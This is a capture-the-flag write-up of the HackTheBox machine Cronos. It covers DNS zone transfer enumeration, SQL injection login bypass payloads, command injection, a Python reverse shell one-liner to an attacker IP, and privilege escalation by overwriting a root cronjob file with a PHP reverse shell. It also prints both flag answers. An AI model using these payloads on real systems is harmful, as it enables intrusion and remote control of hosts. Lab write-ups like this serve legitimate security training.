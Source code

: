 # Tasks

[**1. How many TCP ports are listening on Cronos?**](#task-1)

[**2. What subdomain of cronos.htb is serving a login page over HTTP?**](#task-2)

[**3. What is the heading at the top of the webpage once authenticated?**](#task-3)

[**4. What user is the website on Cronos running as?**](#task-4)

[**5. User Flag**](#user-flag)

[**6. What is the full path to the file passed to php in a cronjob that runs every minute as the root user?**](#task-6)

[**7. Does www-data have write permissions on the artisan binary?**](#task-7)

[**8. Root Flag**](#root-flag)

# Tools Used

- nmap
- dig
- nc
- linpeas

# Skills Used

- DNS Enumeration
- Basic SQLi
- Command Injection
- Automated system enumeration (via linpeas)
- Cronjob Abuse (idk if that's what it's called but yeah)

# Solutions

## Task 1

You know the drill:

```
nmap -sCV [IP Address]
```

![image](https://github.com/user-attachments/assets/44fa3962-a8ac-4b2d-8206-2f455c8cbcdd)

**Answer: 3**

## Task 2

First off, let's put that domain name into _/etc/hosts_, like so:

![image](https://github.com/user-attachments/assets/f9d9ae5e-ff2a-40cb-bdd3-c4a04e3628a6)

We can add the subdomains to it later.

Anyways, the next part took me about 30 minutes, but with [this](https://medium.com/disruptive-labs/a-penetration-testers-guide-to-sub-domain-enumeration-7d842d5570f6) and [this](https://www.acunetix.com/blog/articles/dns-zone-transfers-axfr/), I got a lead on what I could do to conduct the subdomain enumeration.

**Disclaimer:** It took me 30 minutes cuz I was trying to use _dns.nse_ scripts for _nmap_ for sudomain enumeration.

This is new for me so I'll explain in detail as best as I can.

So what I used for the subdomain enueration was a _DNS Zone Transfer_. As far as I understand, it's a way to transfer data between two _DNS servers_. I'm not exactly sure how it works, but for now, that much info will do.

Knowing that, I can use _dig_ via _AXFR_ (protocol used for the _DNS Zone Transfer_) to get a list of subdomains with the targeted domain name.

To do that, I need to use this command:

```
dig axfr @[First DNS Server/Target Server IP Address] [Target Domain Name]
```

Which looks like this:

![image](https://github.com/user-attachments/assets/e283876b-27a2-409c-a26a-8b81f8dabd1b)

Anyways, after finding the subdomains, I instinctively went for _admin.cronos.htb_ lmao.

Add that to _/etc/hosts_, and turns out I was right.

![image](https://github.com/user-attachments/assets/d32b01d1-856c-445f-91ba-b234d7b32cc8)

**Answer: admin.cronos.htb**

## Task 3

Now before we can actually answer that, we do need to be authenticated, like the task said.

Considering _SQLi_ was mentioned as part of the machine, I assumed this is where to do it, considering I'm at a login page.

I tried the default ```admin:' or 1=1--```, but that didn't work.

After that, I looked at [**Chad Tib3rius Cheatsheet**](https://tib3rius.com/sqli.html) to see what I can do about it, and found this:

![image](https://github.com/user-attachments/assets/a446234a-a11e-4a6d-8d17-baaf66da08d9)

Tried to add that to the credentials like this ```admin:' or 1-1-- -```, but that still didn't work.

Then I thought maybe I should try that on the _username_, considering the rest of the query will get commented out anyway, since the query most probably looks like this:

```
SELECT * FROM users WHERE username = 'user' AND password = 'pass';
```

Turns out I was right lmao.

![image](https://github.com/user-attachments/assets/94dcfd93-fa5f-4a78-9756-ecf34d9bed52)

Anyways, looks like I can do _command injection_ here now, but first, I gotta answer the question, which is probably...

**Answer: Net Tool v0.1**

## Task 4

Now we can do _command injection_.

**Bada bing**

![image](https://github.com/user-attachments/assets/692118ce-0f94-403a-9c2f-b63528158568)

**Bada boom**

![image](https://github.com/user-attachments/assets/d0a77d80-b7bf-41c8-917f-e8da59aca102)

**Answer: www-data**

## User Flag

For this, I'd rather get my own shell, so let's head over [**here**](https://www.revshells.com/) to get one.

Specifically this script btw:

```
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("[IP Address]",[Port]));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/sh")'
```

Had to use ```which python``` in the web shell to make sure _python_ was there lol.

Anyways, after I got that, I decided to stablize it using this:

```
1. python -c 'import pty;pty.spawn("/bin/bash")'
2. export TERM=xterm
3. CTRL + Z to background
4. stty raw -echo; fg (fg = foreground)
```

Result:

![image](https://github.com/user-attachments/assets/f1e8584a-ec57-4ff2-89b8-22734ef74b45)

**P.S.** Ignore the fact I did step 2 first lmao.

Now that we have a proper shell, let's actually get the flag.

Did ```find / -name user.txt -type f``` to find where it is, forgetting to add in ```2>/dev/null``` to get rid of all the other useless info, and found the flag.

![image](https://github.com/user-attachments/assets/11d1f311-3cfd-4a28-8957-ef03abaf5ef2)

And yes, I only did it after to show that it was clean lol.

**Answer: 94d561b764b68d7beaa6749157357fe5**

## Task 6

I got too lazy to enumerate it myself, but hey, why should I when I got _linpeas_?

Just run a _http server_ on my main machine with _python_ in the directory with _linpeas_ (yes, I have a dedicated directory for that lmao), use ```wget``` in _/tmp_ on the victim machine to get it,
run ```chmod +x``` on the file we got so that we can actually run it, then boom, auto enumeration.

![image](https://github.com/user-attachments/assets/ad7db112-d8fd-49db-beb5-a28950423024)

Just gotta love how _linpeas_ highlights very potentially interesting stuff about the system.

**Answer: /var/www/laravel/artisan**

## Task 7

![image](https://github.com/user-attachments/assets/c4962aa1-5d0f-4a94-8700-778b35560b8e)

Yes, yes it does.

**Answer: yes**

## Root Flag

Knowing that, we can probably do what we did in [**Bashed**](../Bashed/Writeup.md) and change the contents of the file to execute a reverse shell instead.

Back to [**here**](https://www.revshells.com) again lmao (this time we need php).

I'd show the script I selected but it's really long, so instead, I'll just say that I used _PHP Pentestmonkey's_ script.

Anyways, after _touching_ a new file named _artisan2_, and using _nano_ to paste the script there, I copied the contents of _artisan2_ into _artisan_.

Why didn't I just replace the code inside _artisan_ directly? Simple, it's a pain in the ass for me to use _nano_ on a reverse shell, even if it's stabilized lol.

![image](https://github.com/user-attachments/assets/3b4b2068-8432-4d18-a16c-b2f7c678e97c)

Anyways, after just 2 seconds of copying _artisan2_ into _artisan_, I got a shell from my _netcat_ listener, and got the flag.

![image](https://github.com/user-attachments/assets/d9f10801-ae39-4056-8b8c-ca274f2aabb6)

**Answer: 3e2817833a9a977bf0a3ebe71bb955be**
